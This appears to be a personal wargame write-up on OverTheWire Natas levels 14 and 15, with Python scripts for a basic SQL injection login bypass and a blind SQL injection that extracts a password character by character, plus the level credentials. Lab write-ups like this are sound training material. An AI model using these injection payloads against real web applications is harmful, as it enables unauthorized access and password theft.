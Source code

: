 
2024-07-18 20:49

Source: #overthewire #natas #web 

Tags: [[Injection]]
## Natas 14  ->  Basic SQL injection 

```
import requests
username = 'natas14'
password = 'z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ'

url = 'http://natas14.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()

response = sessions.post(url,data={ "username" : 'aaam" OR 1=1 #' , "password" : "mango"},auth = (username,password))

print(response.text)
```
here on seeing the source code we see that we have a `debug` parameter that will show us the query that is made on the DB 

`#`  - comment the rest of the query 

injecting the following in the username will give the pass
```
'anything" OR 1=1 #'
```
## Natas 15  ->  Blind SQL Injection 

- the anything character or the wild-card character in a SQL `like` statement is `%`
- putting `BINARY` right before the field in the Select statement we'll make that field case sensitive
- we loop through all the characters for every position of the password [[BlindSQL]]

```
import requests
import string
characters = string.ascii_letters + "0123456789"  

username = 'natas15'
password = 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx'

url = 'http://natas15.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()
seen = list()  #initialze the empty seen password list

while (True):
    for ch in characters:
        print("trying character with password" , "".join(seen) + ch)

        response = sessions.post(url,data={ "username" : 'natas16" AND BINARY password LIKE "' + "".join(seen) + ch +'%" #'},auth = (username,password))
        
        #example. if `hWs%` returns as user exists then the password starts with `hWs....` 

        content = response.text   #crucial step to log the response.text in a variable as we will further check the "user exists" string and determine if the character is a part of the password or not 
        
        if "user exists" in content:
            seen.append(ch)
            break #break out of the for loop and start again 
```

### References
https://www.youtube.com/watch?v=krp0qCOAnFE&list=PL1H1sBF1VAKWM3wMCn6H5Ql6OrgIivt2V&index=12